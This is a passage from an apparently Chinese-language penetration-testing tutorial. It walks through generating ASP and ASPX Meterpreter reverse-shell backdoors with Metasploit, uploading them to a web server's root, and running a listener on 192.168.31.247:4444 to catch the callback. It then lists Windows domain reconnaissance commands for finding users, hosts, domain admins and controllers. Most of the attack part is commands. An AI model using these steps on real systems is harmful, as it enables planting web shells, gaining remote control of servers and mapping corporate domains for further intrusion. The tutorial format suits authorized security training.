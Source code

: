 打开http://127.0.0.1/shuteer.php，MSF下服务端反弹成功。

### Aspx Meterpreter后门

操作同上：

```
show payloads
use windows/shell_reverse_tcp
info
set lhost 192.168.31.247
set lport 4444
save
```

查看帮助并生成：

```
generate -h
generate -t asp #asp版
generate -t aspx #aspx版
```

代码直接输出到控制台了，复制保存为文件，比如aspx.aspx，想办法上传到C:\inetpub\wwwroot目录，启动MSF，设置监听：

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.31.247
set lport 4444
run
```

打开目标机的aspx.aspx，MSF服务端反弹成功。

## 内网攻击域渗透测试实例

### 信息收集

Windows下：

```bash
ipconfig
net user /domain #查看域用户
net view /domain #查看有几个域
net view /domain:XXX #查看域内的主机
net group /domain #查看域里面的组
net group "domain computers" /domain #查看域内所有的主机名
net group "domain admins" /domain #查看域管理员
net group "domain controllers" /domain #查看域控制器
net group "enterprise admins" /domain #查看企业管理组
net time /domain #查看时间服务器
```

### IPC$渗透
